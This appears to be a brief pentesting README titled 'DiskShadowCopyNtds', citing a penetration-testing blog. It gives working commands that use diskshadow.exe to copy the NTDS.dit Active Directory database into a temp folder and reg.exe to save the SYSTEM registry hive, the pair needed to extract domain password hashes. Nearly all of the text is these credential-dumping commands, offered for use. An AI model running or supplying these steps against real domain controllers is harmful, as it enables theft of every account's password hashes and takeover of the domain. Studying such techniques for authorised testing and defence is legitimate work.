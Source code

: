 # DiskShadowCopyNtds

Comes from https://pentestlab.blog/tag/ntds-dit/

To copy the NTDS.dit file to C:\Windows\temp, run:

diskshadow.exe /s c:\windows\temp\diskshadow.txt

To extract password hashes, you will also get an extract of SYSTEM from the registry:

reg.exe save hklm\system c:\windows\temp\reg.bak

